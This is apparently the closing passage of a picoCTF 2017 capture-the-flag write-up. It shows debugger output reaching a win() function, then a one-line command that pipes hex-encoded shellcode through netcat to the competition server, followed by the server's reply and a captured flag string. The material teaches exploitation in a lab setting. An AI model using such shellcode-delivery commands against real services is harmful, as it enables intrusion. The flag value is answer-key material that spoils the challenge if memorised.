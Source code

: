 ```
Flag{SampleFlag}
[Inferior 3 (process 9505) exited normally]
Warning: not running or target is remote

```

By stepping more, we entered into the win() function and thus able to get our flag.

### Remote

The last thing to do is to netcat to the server and send our shellcode over to get the real flag.

```
$ python -c "print '6840850408c3'.decode('hex')" | nc shell2017.picoctf.com 40976
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
cd875b6ffb5cdd3319532d52ceca71aa
```

(Completed)
